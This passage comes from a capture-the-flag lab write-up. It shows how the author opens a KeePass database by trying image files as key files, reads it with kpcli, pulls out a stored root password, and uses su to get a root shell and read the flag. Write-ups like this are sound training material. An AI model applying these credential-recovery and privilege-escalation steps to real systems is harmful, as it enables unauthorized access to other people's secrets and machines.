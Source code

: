 
Once one cracks, I can kill it as the others won’t.

### Explore DB

With the password, I can try each of the image files until I get one that
opens the database. I can look into the password database using the command
line tool, `kpcli`. In the keepass database, I’ll find the “Root password”:

    
    
    root@kali# kpcli --key IMG_0547.JPG --kdb MyPasswords.kdbx
    Please provide the master password: *************************
    
    KeePass CLI (kpcli) v3.1 is ready for operation.
    Type 'help' for a description of available commands.
    Type 'help <command>' for details on individual commands.
    
    kpcli:/> ls
    === Groups ===
    MyPasswords/
    kpcli:/> cd MyPasswords/
    kpcli:/MyPasswords> ls
    === Groups ===
    eMail/
    General/
    Homebanking/
    Internet/
    Network/
    Recycle Bin/
    Windows/
    === Entries ===
    0. Root password
    kpcli:/MyPasswords> show -f R
    Recycle\ Bin/   Root\ password
    kpcli:/MyPasswords> show -f Root\ password
    
     Path: /MyPasswords/
    Title: Root password
    Uname: root
     Pass: u3v2249dl9ptv465cogl3cnpo3fyhk
      URL:
    Notes:
    

### Shell as root

I can run `su -` and enter that password to get a root shell:

    
    
    user@safe:~$ su -
    Password:
    root@safe:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

Then I can grab `root.txt`:

    
    
    root@safe:~# cat root.txt 
    d7af235e...
    

[](/2019/10/26/htb-safe.html)

